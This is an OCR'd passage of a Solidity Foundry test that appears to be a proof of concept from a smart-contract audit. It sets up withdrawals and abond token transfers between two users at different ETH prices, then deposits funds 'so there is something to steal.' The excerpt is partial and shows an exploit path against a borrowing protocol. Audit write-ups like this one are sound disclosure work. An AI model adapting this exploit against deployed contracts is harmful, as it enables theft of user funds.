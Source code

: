 ```solidity
            contractsB.usda.mint(USER, 1 ether); // @audit so there are enough funds (doesn't affect the PoC)
            uint256 tokenBalance = contractsB.usda.balanceOf(USER);

            if ((currentCumulativeRate * depositDetail.normalizedAmount) / 1e27 > tokenBalance) {
                return;
            }

            contractsB.usda.approve(address(contractsB.borrow), tokenBalance);
            vm.deal(USER, globalFee.nativeFee);
            contractsB.borrow.withDraw{value: globalFee.nativeFee}(
                USER, index, "0x", "0x", ethPrice, uint64(block.timestamp)
            );

            contractsB.abond.transfer(account2, contractsB.abond.balanceOf(USER));

            vm.stopPrank();
        }

        {
            vm.startPrank(USER_2);

            uint64 index = 1;

            Treasury.GetBorrowingResult memory getBorrowingResult = contractsB.treasury.getBorrowing(USER_2, index);
            Treasury.DepositDetails memory depositDetail = getBorrowingResult.depositDetails;

            uint256 currentCumulativeRate = contractsB.borrow.calculateCumulativeRate();
            contractsB.usda.mint(USER_2, 1 ether); // @audit so there are enough funds (doesn't affect the PoC)
            uint256 tokenBalance = contractsB.usda.balanceOf(USER_2);

            if ((currentCumulativeRate * depositDetail.normalizedAmount) / 1e27 > tokenBalance) {
                return;
            }

            contractsB.usda.approve(address(contractsB.borrow), tokenBalance);
            vm.deal(USER_2, globalFee.nativeFee);
            contractsB.borrow.withDraw{value: globalFee.nativeFee}(
                USER_2, index, "0x", "0x", ethPrice - 15000, uint64(block.timestamp)
            );

            // see the "Internal pre-conditions" section to see that matches the following
            contractsB.abond.transfer(account1, contractsB.abond.balanceOf(USER_2));

            vm.stopPrank();
        }

        { // needed so there is something to steal, this proves the issue
            vm.startPrank(USER);

            vm.deal(USER, globalFee.nativeFee + (amount / 2));
            contractsB.borrow.depositTokens{value: globalFee.nativeFee + (amount / 2)}(
                ethPrice,
                uint64(block.timestamp),
                IBorrowing.BorrowDepositParams(
                    IOptions.StrikePrice.FIVE, strikePrice, ETH_VOLATILITY, IBorrowing.AssetName(ETH), amount / 2
                )
            );

            vm.stopPrank();
```